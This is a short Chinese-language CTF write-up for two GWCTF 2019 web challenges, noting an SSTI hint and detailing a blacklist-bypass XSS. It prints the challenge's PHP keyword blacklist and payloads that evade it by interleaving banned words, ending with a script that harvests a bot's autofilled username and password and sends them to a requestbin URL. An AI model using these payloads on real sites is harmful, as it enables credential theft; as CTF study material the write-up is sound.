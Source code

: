# GWCTF 2019

## 你的名字

&lcub;&lcub;1+1&rcub;&rcub;报错提示了python后端

发现config被置空了

那么可以利用config来bypass if等东西

## mypassword

可以注册，登陆后有反馈界面 F12看到泄露了源码

```php
if(is_array($feedback)){
    echo "<script>alert('反馈不合法');</script>";
    return false;
}
$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
foreach ($blacklist as $val) {
    while(true){
        if(stripos($feedback,$val) !== false){
            $feedback = str_ireplace($val,"",$feedback);
        }else{
            break;
        }
    }
}
```

看起来可以交错绕过然后xss

poc
```html
<scriframeipt>alert('233');</scriframeipt>
```

但是开了CSRF,么法直接用xss平台上的pyload了，需要自己写一个xss

怎么利用呢......

之前登陆的时候有个js挺奇怪的

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}//这里会把用户名和密码直接存到cookie里
}
```

那么bot的cookie里肯定有用户名密码，想办法写个js搞出来，但是又不能调用外部js，这里利用访问的二级域名来实现

最后发现bot还能自动填表单。。。


大概构造一个和登录界面一样的表单

```html
<input type="text" name="username">
<input type="password" name="password">
<script src="./js/login.js"></script>
<script>
    var user = document.getElementsByName("username")[0].value;
    var psw = document.getElementsByName("password")[0].value;
    document.location="http://http.requestbin.buuoj.cn/1e8jfct1/?a="+user+"?b="+psw;
</script>
```

然后交错bypass即可

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
    var user = docucookiement.getcookieElementsByName("username")[0].value;
    var psw = docucookiement.getcookieElementsByName("password")[0].value;
    docucookiement.locacookietion="http://http.requestbin.buuoj.cn/swvl36sw/?a="+user+"?b="+psw;
</scrcookieipt>
```